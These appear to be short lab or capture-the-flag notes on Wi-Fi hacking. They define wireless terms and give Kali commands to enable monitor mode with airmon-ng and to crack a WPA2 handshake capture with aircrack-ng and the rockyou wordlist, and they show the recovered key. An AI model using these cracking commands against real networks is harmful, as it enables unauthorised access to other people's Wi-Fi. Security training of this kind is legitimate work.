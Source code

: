 Generate 5 random passwords from rockyou, you can use this command on Kali : `head /usr/share/wordlists/rockyou.txt -n 10000 | shuf -n 5 -`

put the interface “wlan0” into monitor mode with Aircrack tools : `airmon-ng start wlan0`

https://www.aircrack-ng.org/doku.php?id=airmon-ng

Key Terms

SSID: The network "name" that you see when you try and connect

ESSID: An SSID that *may* apply to multiple access points, eg a company office, normally forming a bigger network. For Aircrack they normally refer to the network you're attacking.

BSSID: An access point MAC (hardware) address

WPA2-PSK: Wifi networks that you connect to by providing a password that's the same for everyone

WPA2-EAP: Wifi networks that you authenticate to by providing a username and password, which is sent to a RADIUS server.

RADIUS: A server for authenticating clients, not just for wifi.

aircrack-ng -b 02:1A:11:FF:D9:BD -w /usr/share/wordlists/rockyou.txt NinjaJc01-01.cap

KEY FOUND! [ greeneggsandham ]
